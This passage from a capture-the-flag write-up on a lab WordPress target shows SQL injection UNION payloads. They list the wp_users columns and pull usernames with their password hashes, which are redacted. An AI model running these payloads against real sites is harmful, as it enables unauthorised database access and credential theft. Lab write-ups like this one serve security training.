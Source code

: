 The `wp_users` table looks interesting! Let's find out the column names of that table!

**Enumerate database `wordpress` table `wp_users`'s column names:**
```sql
' UNION ALL SELECT NULL,NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='wp_users'-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Wekor/images/a11.png)

- Database `wordpress` table `wp_users` column names:
	- user_login
	- user_pass
	- user_nicename
	- user_email
	- user_url
	- user_registered
	- user_activation_key
	- user_status
	- display_name

Let's retrieve some credentials!

**Retrieve data from database `wordpress` table `wp_users`:**
```sql
' UNION ALL SELECT NULL,NULL,concat(user_login,0x3a,user_pass) FROM wordpress.wp_users-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Wekor/images/a12.png)

> Note: `0x3a` means `:`.

**Credentials:**
```
admin:$P${Redacted}
wp_jeffrey:$P${Redacted}
wp_yura:$P${Redacted}
wp_eagle:$P${Redacted}
```
